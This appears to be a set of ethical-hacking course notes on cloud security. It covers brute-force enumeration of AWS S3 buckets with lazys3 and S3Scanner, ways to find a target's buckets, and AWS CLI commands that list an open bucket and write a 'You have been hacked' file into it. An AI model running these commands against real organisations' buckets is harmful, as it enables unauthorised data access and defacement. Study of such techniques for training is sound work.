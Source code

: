 # Module 19: Cloud Computing

- infrastructure-as-a-service (IaaS)
- platform-as-a-service (PaaS)
- software-as-a-service (SaaS)

## Perform S3 Bucket Enumeration

### Enumerate S3 Buckets using lazys3
  
  lazys3 is a Ruby script tool that is used to brute-force AWS S3 buckets using different permutations. 
  
  1. ``` cd lazys3 ```
  2. ``` ruby lazys3.rb ```
  3. ``` ruby lazys3.rb [Company]  ```
    You can search the S3 buckets of specific company.

### Enumerate S3 Buckets using S3Scanner

  1. ``` cd S3Scanner ```
  2. ``` pip3 install -r requirements.txt ```
  3. ``` python3 ./s3scanner.py sites.txt ``` sites.txt is a text file containing the target website URL that is scanned for open S3 buckets.
  4. ``` python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt ``` Dump all open buckets and log both open and closed buckets in found.txt.
  5. ``` python3 ./s3scanner.py names.txt ``` log open buckets in the default output file (buckets.txt)
  6. ``` python ./s3scanner.py --list names.txt ``` Save the file listings of all open buckets to a file

### Other tools:
  - S3Inspector (https://github.com)
  - s3-buckets-bruteforcer (https://github.com)
  - Mass3 (https://github.com)
  - Bucket Finder (https://digi.ninja)
  - s3recon (https://github.com)
    
## Exploit S3 Buckets

  identify AWS S3 Buckets:
  - **Inspecting HTML**: Analyze the source code of HTML web pages in the background to find URLs to the target S3 buckets
  - **Brute-Forcing URL**: Use Burp Suite to perform a brute-force attack on the target bucket’s URL to identify its correct URL
  - **Finding subdomains**: Use tools such as Findsubdomains and Robtex to identify subdomains related to the target bucket
  - **Reverse IP Search**: Use search engines such as Bing to perform reverse IP search to identify the domains of the target S3 buckets
  - **Advanced Google hacking**: Use advanced Google search operators such as “inurl” to search for URLs related to the target S3 buckets

  ### Exploit Open S3 Buckets using AWS CLI
  
  1. ``` pip3 install awscli ```
  2. ``` aws --help ```
  3. ``` aws configure ```
  4. ``` aws s3 ls s3://[Bucket Name] ```
  5. ``` echo “You have been hacked” >> Hack.txt ```
  6. ``` aws s3 mv Hack.txt s3://[Bucket Name] ```
  
## Perform Privilege Escalation to Gain Higher Privileges
  
  IAM: Identity and access management
  
  
